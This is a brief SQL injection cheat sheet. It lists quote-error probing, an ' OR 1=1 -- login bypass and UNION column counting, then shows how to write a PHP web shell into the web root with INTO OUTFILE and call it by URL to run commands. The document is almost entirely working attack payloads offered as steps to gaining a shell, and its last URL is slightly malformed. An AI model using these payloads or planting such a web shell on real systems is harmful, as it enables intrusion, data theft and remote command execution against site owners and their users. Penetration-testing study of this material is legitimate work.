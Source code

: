 # SQL Injection

* Cause Error on the Web Application by input quote '

```text
SELECT * FROM users WHERE username = ''' AND password = ''
```

* Data Exfiltration by input ' OR 1=1 --

```text
SELECT * FROM users WHERE username = '' OR 1=1--' AND password = ''
```

* Gaining Shell

First check the number of column with NULL or 1

```text
SELECT * FROM users WHERE username = 'a' UNION SELECT NULL, NULL; --' AND password = ''
```

Use the INTO FILE to create a php file in the web server

```text
SELECT * FROM users WHERE username = 'a' 
UNION SELECT “<? system($_REQUEST[‘cmd’]); ?>”, NULL INTO OUTFILE 'var/www/cmd.php';--' AND password = ''
```

Access the web page

```text
http://yourIPaddress/cmd.php?=[command]
```

